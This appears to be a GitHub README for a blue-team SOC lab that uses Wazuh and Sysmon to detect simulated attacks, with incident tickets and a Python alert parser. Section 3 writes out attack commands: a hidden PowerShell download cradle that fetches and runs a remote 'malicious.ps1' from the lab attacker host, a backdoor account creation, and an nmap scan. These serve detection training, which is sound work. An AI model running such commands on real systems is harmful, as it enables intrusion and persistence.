






# SOC Detection, SIEM & Incident Response Lab

An enterprise-grade Blue Team security operations simulation engineered to demonstrate telemetry collection, SIEM detection engineering, MITRE ATT&CK-aligned threat hunting, and automated incident triage within a segregated virtualized environment.

---

## 1. Network Topology & Environment Architecture

The entire detection environment is hosted across an isolated VMware Host-Only virtual network (`192.168.56.0/24`) with no external internet routing, ensuring complete defensive containment.

```text
                  +-------------------------------------------+
                  | VMware Host-Only Subnet: 192.168.56.0/24  |
                  +-------------------------------------------+
                                        |
         +------------------------------+------------------------------+
         |                              |                              |
         v                              v                              v
+------------------+          +-------------------+          +-------------------+
|   soc-attacker   |          |    soc-target     |          |     soc-siem      |
|  192.168.56.30   |          |   192.168.56.20   |          |   192.168.56.10   |
| (Debian 12 Net)  |          | (Windows 11 Ent)  |          | (Ubuntu 24.04 LTS)|
|                  |          |                   |          |                   |
| - Nmap Scanning  | -------> | - Sysmon Telemetry| -------> | - Wazuh Manager   |
| - SMB Probing    |          | - Win EventChannel|  (TLS)   | - OpenSearch DB   |
| - Reconnaissance |          | - Wazuh Agent 001 |          | - SOAR Automation |
+------------------+          +-------------------+          +-------------------+
```

### Infrastructure Nodes

| Hostname | Operating System | IP Address | Primary Role | Telemetry / Software Stack |
| :--- | :--- | :--- | :--- | :--- |
| **`soc-attacker`** | Debian 12 Minimal | `192.168.56.30` | External Adversary | Nmap 7.95, Network Probing Tools |
| **`soc-target`** | Windows 11 Enterprise | `192.168.56.20` | Corporate Workstation | Microsoft Sysmon, Security EventChannel, Wazuh Agent v4.x |
| **`soc-siem`** | Ubuntu Server 24.04 LTS | `192.168.56.10` | Defense & Ingestion | Wazuh Manager, OpenSearch Indexer, Wazuh Dashboard, Python 3 |

---

## 2. Telemetry Pipeline & Agent Ingestion

The Windows target endpoint (`DESKTOP-E2522QF`) forwards structured XML event logs over TLS port `1514/tcp` directly to the Wazuh indexer.

* **Windows Security EventChannel:** Audits identity and authorization mechanisms (Logon Success `4624`, Logon Failure `4625`, User Creation `4720`).
* **Microsoft Sysmon (System Monitor):** Enforces granular process-level visibility:
  * **Event ID 1:** Process Creation (capturing full command line arguments, parent-child process trees, and hashes).
  * **Event ID 3:** Network Connections (inbound and outbound socket states).
  * **Event ID 11:** File Creation (detecting staging directories and payload drops in temporary storage).


*Figure 1: Active Wazuh Agent (001) connected and shipping telemetry.*

---

## 3. Threat Scenarios, Detections & Incident Handling

```
+-----------+-------------------------+-----------------------------------+--------------------+
| MITRE ID  | Tactic                  | Technique Name                    | Detection Rule     |
+-----------+-------------------------+-----------------------------------+--------------------+
| T1136.001 | Persistence             | Local Account Creation            | Rule 60109 (L5)    |
| T1059.001 | Execution               | PowerShell Download Cradle        | Rule 92213 (L15)   |
| T1110     | Credential Access       | Network Authentication Brute-Force| Rule 60204 (L10)   |
| T1531     | Impact                  | Account Access Removal (Lockout)  | Rule 60115 (L9)    |
| T1046     | Discovery               | Network Service Scanning          | Sysmon EID 3 (L4)  |
+-----------+-------------------------+-----------------------------------+--------------------+
```

---

### Scenario 1: Local Account Creation Persistence (T1136.001)

#### 1. Adversary Execution
An adversary with administrative execution created an unauthorized local user account (`FakeHacker`) to establish secondary persistence:
```cmd
net user FakeHacker P@ssw0rd123! /add
```

#### 2. Detection Telemetry
* **Log Source:** `Security.evtx` via `windows_eventchannel`
* **Event ID:** `4720` (A user account was created)
* **Wazuh Rule:** `60109` (Level 5 — *User account created*)
* **Identified User:** `FakeHacker`


*Figure 2: Correlated Event ID 4720 confirming local backdoor persistence.*

#### 3. Incident Triage & Response Ticket
```text
Ticket ID    : INC-20260831-001
Severity     : P3 - Medium
Category     : Persistence / Local Account Creation (T1136.001)
Affected Host: DESKTOP-E2522QF (192.168.56.20)

Observation:
User account 'FakeHacker' was provisioned via cmd.exe without an approved Change Management request.

Eradication & Remediation:
1. Removed unauthorized account: 'net user FakeHacker /delete'.
2. Audited Administrators group to ensure no lingering privileges were retained.
3. Configured an automated Wazuh alert notification for any future Event ID 4720 generation.
Status: Closed / Resolved
```

---

### Scenario 2: Obfuscated PowerShell Download Cradle (T1059.001 / T1105)

#### 1. Adversary Execution
The endpoint executed an in-memory execution policy bypass to stage a download cradle targeting a remote payload:
```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('[http://192.168.56.30/malicious.ps1](http://192.168.56.30/malicious.ps1)')"
```

#### 2. Detection & SOC Engineering Distinction
* **Detection Rule:** `92213` (Level 15 — *Executable file dropped in folder commonly used by malware*)
* **Sysmon Event ID:** `11` (File Creation)
* **Observed Target Path:** `C:\Users\socadmin\AppData\Local\Temp\__PSScriptPolicyTest_*.ps1`
* **Analyst Baseline Note:** Triage required differentiating internal SIEM agent overhead (Rule `92066` / `SecEdit.exe` security baseline check initiated by `NT AUTHORITY\SYSTEM`) from genuine user-driven attacks executed by `socadmin`.


*Figure 3: High-severity Level 15 alert triggered by PowerShell script staging in Temp.*

#### 3. Incident Triage & Response Ticket
```text
Ticket ID    : INC-20260901-002
Severity     : P2 - High
Category     : Execution & Evasion (T1059.001, T1105)
Affected Host: DESKTOP-E2522QF (192.168.56.20)

Observation:
PowerShell invoked with -ExecutionPolicy Bypass and -WindowStyle Hidden. Sysmon captured 
the temporary runtime script block generated in AppData\Local\Temp.

Remediation Actions:
1. Validated that network connection to 192.168.56.30 failed to download second-stage malware.
2. Hardened endpoint via Group Policy to enforce PowerShell ConstrainedLanguageMode.
3. Implemented AppLocker script-execution restrictions for standard user directories.
Status: Closed / Mitigated
```

---

### Scenario 3: Network Authentication Brute-Force & Account Lockout (T1110 / T1531)

#### 1. Adversary Execution
Automated credential-guessing requests were fired against the workstation over SMB (`port 445`) targeting the `socadmin` account.

#### 2. Detection & Correlation Pipeline
1. **Event ID `4625`:** Windows logged multiple logon failures with SubStatus code `0xC000006A` (Valid username, bad password) and Logon Type `3` (Network).
2. **Rule `60122` (Level 5):** Individual *Logon Failure* alerts.
3. **Rule `60204` (Level 10):** Wazuh's correlation engine automatically aggregated repeated failure spikes into *Multiple Windows Logon Failures*.
4. **Rule `60115` (Level 9):** Operating system security defenses engaged, triggering *User account locked out*.


*Figure 4: SIEM alert correlation chain showing logon failures, brute-force aggregation, and final account lockout.*

#### 3. Incident Triage & Response Ticket
```text
Ticket ID    : INC-20260901-003
Severity     : P2 - High
Category     : Credential Access / Brute Force (T1110, T1531)
Target Asset : DESKTOP-E2522QF (192.168.56.20)
Target User  : socadmin

Observation:
High-frequency SMB authentication failures generated from 192.168.56.20/192.168.56.30. 
Account was automatically locked by Windows security policies after the failure threshold was hit.

Remediation Actions:
1. Verified lockout mechanism successfully blocked further adversary access attempts.
2. Maintained local account lockout duration of 15 minutes.
3. Blocked SMB ingress on Windows Firewall from unauthorized network segments.
Status: Closed / Remediated
```

---

### Scenario 4: Host Service Reconnaissance (T1046)

#### 1. Adversary Execution
A full TCP Connect port scan was initiated from the Debian attacker host against the corporate target:
```bash
sudo nmap -sT -p 445 -Pn 192.168.56.20
```

#### 2. Detection Analysis
While stealth SYN sweeps (`-sS`) drop half-open connections to avoid application handshakes, the TCP Connect scan (`-sT`) established the full three-way handshake (`SYN -> SYN/ACK -> ACK`), forcing the Windows socket to register a complete session inside Sysmon network tracking.


*Figure 5: Adversary reconnaissance terminal executing Nmap TCP connect scanning against Windows target.*

---

## 4. SOC Automation: Python Threat & IOC Parser

To eliminate repetitive manual log filtering, a standalone Python automation script (`threat_parser.py`) was engineered for the defense environment. The script ingests raw Wazuh JSON alerts, isolates high-severity threats ($\ge$ Level 10), extracts source IPs, maps MITRE ATT&CK techniques, and generates a clean triage summary.

### Script Execution & Terminal Output


*Figure 6: Automated terminal report parsing high-severity threats and extracting IOCs.*

```bash
$ python3 threat_parser.py
============================================================
[*] SOC AUTOMATION: WAZUH THREAT & IOC REPORT
============================================================

[!] HIGH SEVERITY ALERT (Level 15)
    Timestamp  : 2026-09-01T21:19:29.684+0530
    Host       : DESKTOP-E2522QF
    Rule ID    : 92213 - Executable file dropped in folder commonly used by malware
    User       : socadmin

[!] HIGH SEVERITY ALERT (Level 10)
    Timestamp  : 2026-09-01T21:34:59.622+0530
    Host       : DESKTOP-E2522QF
    Rule ID    : 60204 - Multiple Windows Logon Failures
    User       : socadmin

------------------------------------------------------------
[*] SUMMARY STATISTICS
    Total Alerts Parsed : 3
    Critical/High Alerts: 2
    Top Attacking IPs   : ['192.168.56.30']
    MITRE Tactics Seen  : {'T1105': 1, 'T1110': 1, 'T1531': 1}
============================================================
```

---

## 5. Summary of Captured Proofs & Artifacts

All forensic evidence gathered during this project is cataloged in the [`evidence/`](evidence/) directory:

| Reference | Artifact Name | Description |
| :---: | :--- | :--- |
| **01** | `01_agent_telemetry_active.png` | Active Wazuh Agent connection and telemetry pipeline confirmation |
| **02** | `02_scenario1_account_creation.png` | Event ID 4720 capture for unauthorized backdoor persistence |
| **03** | `03_scenario2_powershell_detection.png` | Level 15 alert for PowerShell download cradle staging |
| **04** | `04_scenario3_bruteforce_lockout.png` | Correlated Rule 60204 (Brute-Force) and Rule 60115 (Account Lockout) |
| **05** | `05_scenario4_attacker_nmap.png` | Adversary Nmap reconnaissance execution output |
| **06** | `06_python_automation_tool.png` | Automated SOC triage script execution and metric summary |
| **07** | `sample_wazuh_alert.json` | Sanitized raw JSON alert log extracted from OpenSearch database |

---

## 6. How to Recreate This Lab

1. **Virtual Infrastructure:** Deploy Debian 12, Windows 11 Enterprise, and Ubuntu Server 24.04 inside VMware Workstation Pro on a single host-only adapter (`192.168.56.0/24`).
2. **SIEM Installation:** Deploy Wazuh Central Components (Manager, Indexer, Dashboard) on Ubuntu via the official installation scripts.
3. **Sensor Provisioning:** Install the Wazuh Windows Agent and Microsoft Sysmon on Windows 11. Configure the agent configuration (`ossec.conf`) to read the `Microsoft-Windows-Sysmon/Operational` channel.
4. **Attack Simulation:** Execute the simulated attack commands documented in Section 3 from `soc-attacker` and `soc-target`.
5. **Automation Verification:** Run `python3 threat_parser.py` on the SIEM server to automatically parse the generated alerts.
